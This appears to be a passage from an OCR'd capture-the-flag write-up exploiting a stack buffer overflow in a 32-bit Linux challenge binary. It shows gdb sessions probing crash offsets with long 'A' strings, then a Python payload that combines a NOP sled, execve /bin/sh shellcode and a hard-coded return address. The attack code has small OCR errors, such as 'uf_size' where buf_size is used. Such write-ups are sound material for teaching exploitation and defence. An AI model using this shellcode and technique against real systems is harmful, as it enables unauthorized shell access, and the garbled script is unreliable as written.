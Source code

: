     Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    (gdb) r `python -c 'print("A"*360)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*360)';`
    [Inferior 1 (process 1995) exited normally]
    (gdb) r `python -c 'print("A"*370)';`
    Starting program: /usr/local/bin/chal `python -c 'print("A"*370)';`

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    (gdb) r `python -c 'print("A"*365)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*365)';`

    Program received signal SIGSEGV, Segmentation fault.
    0x00414141 in ?? ()
    (gdb) r `python -c 'print("A"*363)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*363)';`

    Program received signal SIGSEGV, Segmentation fault.
    0xb7e30044 in ?? () from /lib/i386-linux-gnu/libc.so.6
    (gdb) r `python -c 'print("A"*362)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*362)';`

    Program received signal SIGSEGV, Segmentation fault.
    0x00000002 in ?? ()
    (gdb) r `python -c 'print("A"*361)';`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /usr/local/bin/chal `python -c 'print("A"*361)';`
    [Inferior 1 (process 2010) exited normally]
(gdb) r `python -c 'print("A"*361)';`


after a lot of trial and error I found the right eip and some shellcode to execute with the bufferoverflow

    find eip 0xbffff4c0



    payload <-
    uf_size=362
    shellcode="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
    nop_sled="\x90"*(buf_size-len(shellcode))
    EIP="\xc0\xf4\xff\xbf" # 0xbffff4c0

    payload= nop_sled + shellcode + EIP
    print payload
    